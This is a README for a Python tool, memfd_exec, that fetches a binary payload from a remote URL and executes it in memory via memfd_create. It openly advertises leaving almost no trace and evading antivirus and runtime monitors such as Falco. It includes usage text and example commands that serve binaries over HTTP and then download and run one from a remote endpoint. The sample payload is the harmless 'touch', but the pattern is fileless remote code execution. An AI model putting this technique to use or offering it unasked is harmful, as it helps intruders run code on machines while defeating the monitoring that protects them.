 # memfd_exec
Retrieve binary payload from a remote url and execute it in-memory using memfd

## Why in-memory execution ?

- No trace (almost ..)
- Evades detection by AVs and runtime security tools like [Falco](https://github.com/falcosecurity/falco).

## How does it work?

It uses `memfdd_create` syscall which:

> creates an anonymous file and returns a file
       descriptor that refers to it.  The file behaves like a regular
       file, and so can be modified, truncated, memory-mapped, and so
       on.  However, unlike a regular file, it lives in RAM and has a
       volatile backing storage.  Once all references to the file are
       dropped, it is automatically released.  Anonymous memory is used
       for all backing pages of the file.  Therefore, files created by
       memfd_create() have the same semantics as other anonymous memory
       allocations such as those allocated using mmap(2) with the
       MAP_ANONYMOUS flag.

- https://man7.org/linux/man-pages/man2/memfd_create.2.html

## Usage

```
usage: memfd_exec.py [-h] [--exec_args EXEC_ARGS [EXEC_ARGS ...]] url

positional arguments:
  url                   URL to the payload server

optional arguments:
  -h, --help            show this help message and exit
  --exec_args EXEC_ARGS [EXEC_ARGS ...]
                        Arguments to be passed to memfd executable
```

## Example

Serve the payload on a remote server:

```
python3 -m http.server --directory /usr/bin/
```

Execute the payload with:

```
python3 memfd_exec.py http://remote_endpoint:8000/touch --exec_args test_file
```

```
ls -s test_file
0 test_file
```

